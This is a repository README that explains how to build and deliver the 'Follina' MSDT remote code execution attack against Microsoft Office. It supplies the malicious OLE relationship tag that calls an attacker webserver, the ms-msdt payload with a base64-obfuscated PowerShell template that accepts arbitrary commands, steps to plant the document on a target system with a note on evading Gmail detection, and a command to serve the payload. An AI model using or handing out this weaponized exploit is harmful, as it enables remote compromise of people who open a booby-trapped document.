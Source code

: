 # Microsoft Office RCE - “Follina” MSDT Attack 

This is a repository to hold files needed to recreate the Follina Attack. 

## How does Follina work? 

Take a word document and unzip it. (unzip file.doc) In the word/_rels/document.xml.rels document there are relationship tags used to get external links for items like font. You can add a relationship to have the document connect to your webserver, pull a file, and run it. 
```
<Relationship Id="rId996" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="http://LOCAL_IP:PORT/index.html!" TargetMode="External"/>
```
The Docoument included in this repo has this relationship tag added with a dummy IP that can be easily replaced for usage. 

Once you have the document calling back, you need to create an html file to carryout the exploit. 

The html document uses a script that uses MSDT to run powershell commands as the user that opened the word document. 

Here is the main section of the payload: 
```
location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../$(calc)/.exe\""
```
This sample uses the exploit to open the calculator application. This version of the payload requires 

- At a minimum, two /../ directory traversals were required at the start of the IT_BrowseForFile parameter
- Code wrapped within $() would execute via PowerShell, but spaces would break it
- “.exe” must be the last trailing string present at the end of the IT_BrowseForFile parameter 
(This text was taken from John Hammonds Huntress Post which is linked at the end. )

There is another version of the payload which allows you to execute any powershell commands, but the command must be base64 encoded. Here is the payload for the same calc exploit using the base64 encoding. 
```
<script>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'Y2FsYw=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\""; 
```
The base64 encoding of "calc" is 'Y2FsYw=='.  So to use this for any exploit the syntax would be
```
<script>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'BASE64_ENCODED_COMMAND'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\""; 
```
The index_template.html file has the exploit with a BASE64_ENCODED_COMMAND place holder to simplify things. 

The last part of the exploit is to fill it with random characters to meet the minimum of 4096 bytes to execute, and closing the script tag. 

When the user opens the document, the reference file calls for the index.html file from our webserver. It will then run the file, utilizing the msdt to run our payloads. 

## How can you use it? 

JohnHammond Premade Proof of Concept Code: https://github.com/JohnHammond/msdt-follina 
This code can be ran without any additional steps. 

Creating your own exploit. This is a two part process. 

Part One: creating the document. 
1. unzip the microsoft doc
2. Add relationship tag to the word/_rels/document.xml.rels file. (if you are using the template, just change the IP address to your local machine) 
3. re-zip the file into a .doc extension 
4. Get document onto the target system. Note: at time of writing gmail does detect this exploit and will not allow the file to be sent. 

Part Two: creating the html file.
1. Create a payload.txt file with powershell commands. If there are multiple commands separate with a ; and not a newline. 
2. base64 encode the file 
```
base64 -w 0 payload.txt
```
3. Copy and paste encoded payload into the index.html file between the char34 operators. 

```
'+[char]34+'BASE64_ENCODED_PAYLOAD_HERE'+[char]34+'
```
This is marked in the index_template.html file. 
4. Run a webserver in the same folder as the index.html file. You can use a python simple webserver 

```
python3 -m http.server PORT
```
This port must match the port put into the word document. 


## Further Reading 
https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug 
